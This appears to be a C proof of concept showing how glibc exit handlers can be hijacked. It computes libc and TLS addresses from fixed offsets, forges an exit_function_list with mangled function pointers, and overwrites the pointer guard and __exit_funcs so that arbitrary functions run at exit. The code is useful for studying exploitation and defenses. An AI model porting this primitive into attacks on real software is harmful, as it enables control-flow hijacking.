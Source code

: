 ```c
#include <stdio.h>
#include <stdlib.h>
// differ in each environment
unsigned long off_puts = 0x80ed0;
unsigned long off_tls = 0x7ffff7d8a740 - 0x7ffff7d8d000;
unsigned long off_exit_funcs = 0x7ffff7fa6838 - 0x7ffff7d8d000;

#define ENC_FUNC(ptr,pg) ((ptr^pg)<<0x11|(ptr^pg)>>(0x40-0x11))

void target1(unsigned long arg1)
{
    printf("In target1(): arg1=0x%lx\n", arg1);
    return;
}

void target2(unsigned long arg1)
{
    printf("In target2(): arg1=0x%lx\n", arg1);
    return;
}

void main()
{
    printf("Start of main()\n");

    void* libc_base = &puts - (unsigned long)off_puts;
    printf("libc_base = %p\n",libc_base);
    void* tls = libc_base + off_tls;
    printf("tls = %p\n",tls);
    void* exit_funcs = libc_base + off_exit_funcs;
    printf("exit_funcs = %p\n",exit_funcs);

    // prepare for exploit
    unsigned long fake_pointer_guard = 0xdeadbeef;
    void* fake_exit_function_list = malloc(0x200);

    *(unsigned long*)(fake_exit_function_list +  0x0) = 0;          // next
    *(unsigned long*)(fake_exit_function_list +  0x8) = 2;          // idx (number of functions)
    *(unsigned long*)(fake_exit_function_list + 0x10) = 4;          // fns[0].flavor
    *(unsigned long*)(fake_exit_function_list + 0x18) =
            ENC_FUNC((unsigned long)target1,fake_pointer_guard);    // fns[0].func.fn
    *(unsigned long*)(fake_exit_function_list + 0x20) = 0x12345678; // fns[0].func.arg
    *(unsigned long*)(fake_exit_function_list + 0x30) = 4;          // fns[1].flavor
    *(unsigned long*)(fake_exit_function_list + 0x38) =
            ENC_FUNC((unsigned long)target2,fake_pointer_guard);    // fns[1].func.fn
    *(unsigned long*)(fake_exit_function_list + 0x40) = 0x9abcdef0; // fns[1].func.arg

    // overwrite symbols
    *(unsigned long*)(tls+0x30) = fake_pointer_guard;
    *(unsigned long*)exit_funcs = (unsigned long)fake_exit_function_list;

    puts("End of main()");
    // _exit(0); //not work
    // exit(0);
    return;
}
```
